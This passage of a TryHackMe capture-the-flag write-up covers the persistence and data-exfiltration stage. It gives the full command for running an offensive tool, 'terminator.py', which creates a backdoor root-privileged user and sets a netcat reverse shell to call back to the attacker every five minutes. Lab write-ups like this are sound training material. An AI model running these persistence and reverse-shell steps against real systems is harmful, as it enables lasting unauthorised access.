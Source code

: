 # persistence/data exfiltration
now that we have the root password, let's login to root:
`su root` and enter the root password

now we can successfully run the terminator's persistence/data exfil module.

**if you are using the tryhackme attack box, you will need to set up a password for your local root user before running the privesc/data exfil module, so just run
`passwd` on your local box to make a new password**

go to 'the-terminator' directory (/home/alice) and run:

`python3 terminator.py root -u <new_user> -p <new_passwd> -l <your_ip> -x <any_port>`

*again, the new_user and new_passwd are for creating a new root-privileged user; the your_ip and any_port are for creating a netcat reverse shell callback*

![IMG-17](https://github.com/suffs811/writeups/blob/main/terminator-img/17.png)

the terminator will prompt you for your local username and password. if you are using the tryhackme attack box, your user should be 'root' and password is the password your just created for root.

![IMG-18](https://github.com/suffs811/writeups/blob/main/terminator-img/18.png)

success! we have established persistence by creating a new root-privileged user and creating a reverse shell callback that will send us a root shell every 5 minutes
